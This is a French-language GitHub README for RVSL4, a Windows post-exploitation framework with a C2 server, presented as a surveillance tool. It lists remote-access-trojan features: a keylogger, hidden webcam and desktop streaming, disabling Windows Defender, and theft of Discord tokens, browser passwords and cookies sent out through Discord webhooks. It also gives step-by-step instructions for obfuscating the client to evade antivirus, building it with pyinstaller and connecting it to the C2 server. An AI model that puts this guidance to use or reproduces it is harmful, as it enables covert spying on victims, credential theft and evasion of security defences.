 # RVSL4 - Modular Windows Post Exploit Framework

# Description

RVSL4 est un framework modulaire conçu pour des actions de surveillance électronique sur des appareils de type ordinateur sous l'OS Windows. Il permet une post-exploitation flexible et personnalisable, offrant un ensemble d'outils pour surveiller les activités et collecter des informations à distance. RVSL4 est destiné à des fins de surveillance uniquement, et doit être utilisé en conformité avec les lois et régulations en vigueur.

# ADDONS INTERNES

    - DESKTOP : Ouvre un serveur pour recevoir le flux du bureau client en temps réel.
    - WEBCAM : Ouvre un serveur pour recevoir le flux de la webcam client en temps réel. (60 FPS)

# ADDONS EXTERNES

    - KLOG : Suivi des entrées clavier pour analyser les interactions utilisateur.
    - AUTOSCP : Effectue des captures d'écrans du bureau en automatique avec un timer modulable et exfiltre ensuite les captures sur discord via un webhook.
    - DESKSCP : Effectue des captures d'écrans du bureau ainsi que de la webcam et exfiltre ensuite les captures sur discord via un webhook.
    - DWINDEF : Désactive windows defender.
    - STLINFOS : Steal les infos et le token discord avec Creal.

# USAGE

Lancer le serveur C2 avec les commandes suivantes :

    python rvsl4.py <IP/DDNS> <PORT>
    Exemple : python rvsl4.py sha78221662145822.ddns.net 5555

![2](https://github.com/user-attachments/assets/f0179195-733e-4332-9c8b-04dfaa926c20)

Modifier les informations de connexion dans le fichier client (cli.py) avec la même IP ou le même DDNS que vous avez utilisé pour lancer le serveur afin que votre client se connecte correctement à votre serveur C2 RVSL4.

![3](https://github.com/user-attachments/assets/742a4f1a-07b4-41cb-82ac-382315cc6dc1)

# OBFUSCATION

Il est conseiller d'obfusquer votre fichier client avant d'entamer la construction afin de contourner les antivirus.
Il n'existe pas vraiment de meilleur techniques d'obfuscation car celà dépend en premier temps des antivirus utilisé par vos cibles et dans un second temps de la force et de la technique utilisé pour votre obfuscation, il existe beaucoup de manières d'obfusquer un code mais je vais vous présenter la base.

- Via modules python

      pip install pyarmor            https://pypi.org/project/pyarmor/
      pip install PyObfuscator       https://pypi.org/project/PyObfuscator/

- Via outils web

      https://pyobfuscate.com/
      https://development-tools.net/python-obfuscator/
      https://freecodingtools.org/py-obfuscator
      https://pyob.oxyry.com/

- Ressources Github

      https://github.com/billythegoat356/Hyperion
      https://github.com/billythegoat356/Kramer
      https://github.com/spicesouls/onelinepy
      https://github.com/davidteather/python-obfuscator

# CONSTRUCTION

Une fois obfusquer construisez ensuite votre fichier client en executable (cli.exe)
Commande pour construire via pyinstaller : pyinstaller --onefile --windowed FILE_NAME.py

![6](https://github.com/user-attachments/assets/2de6aaf8-0a12-4131-96e3-83cfe54d9e00)
![9](https://github.com/user-attachments/assets/bd435dfa-870b-4aa3-8dcf-b73e701adfd6)

Une fois la construction rendez-vous dans le répertoire 'dist' ou se trouvera votre executable cli.EXE
Veuillez suivre la même procédure de construction et d'obfuscation si vous souhaitez utilisez des ADDONS EXTERNES afin de les upload et les lancer directement depuis le C2.

![10](https://github.com/user-attachments/assets/344342f0-5ca7-4c2c-b084-076bef03aa8d)
![11](https://github.com/user-attachments/assets/bad05ac7-a7c4-4ccb-8ea3-aadbae7fe334)

# COMMANDES

        //  exec            ->  Run external command or local file 
        //  start           ->  Start file from client machine (exe, txt, pdf, odt, etc..)
        //  check           ->  Check if client machine is connected to internet                                             
        //  browse          ->  Open an website on client machine browser
        //  download        ->  Download file from client machine 
        //  upload          ->  Upload file to client machine  
        //  kill            ->  Kill the connection with client machine 


        //  pwd             ->  Print working directory in client machine 
        //  scp             ->  Copy files to client with SSH
        //  route print     ->  Show Routes Tables
        //  whoami          ->  Get name of client machine (LINUX ONLY)
        //  hostname        ->  Show hostname of client machine
        //  arp -a          ->  Show all current protocol statistics and TCP/IP connections
        //  ipconfig /all   ->  Show ip configurations from client machine (ipv4, ipv6, mac, etc..)
        //  getmac          ->  Show mac addresses of client machine
        //  netstat         ->  Show all actives connections from client machine 
        //  uname -a        ->  Show kernel of client machine  [ONLY LINUX GNU]  
        //  systeminfo      ->  Show all informations of client machine    (os version, desktop name, etc..)

        // webcam           ->  Remote webcam [DIRECT 60FPS] [NO GUI]
        // desktop          ->  Remote desktop [DIRECT 60FPS] [NO GUI]

        // dwd              ->  Disable Windows Defender AV [Real-Time Protect]
        // stlinfos         ->  Steal discord token | browser passwords | cookies | mail and others informations [Webhook ONLY]
        // deskscp          ->  Steal session name | desktop name | ip | camera and desktop screenshot [Webhook ONLY] [AUTO-MODE AVAILABLE]
        // autoscp          ->  Take a desktop screenshot every minute [Webhook ONLY] [AUTO-MODE]
        // klog             ->  Enable keylogger server


https://github.com/user-attachments/assets/b17b45fa-4e8d-47e0-a9e6-9901eab7d3b3

# ABOUT 📑

Buy me a Coffee ☕️ ETH ARBITRUM ONLY 0xCeB10eEC23826DdCb14397dB855B9302D36822bE
If you would like to contribute to the development of the project, please contact me on my Telegram @makaki22 

MIT License

Copyright (c) [2024] [SUPERPOSE INT]

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:


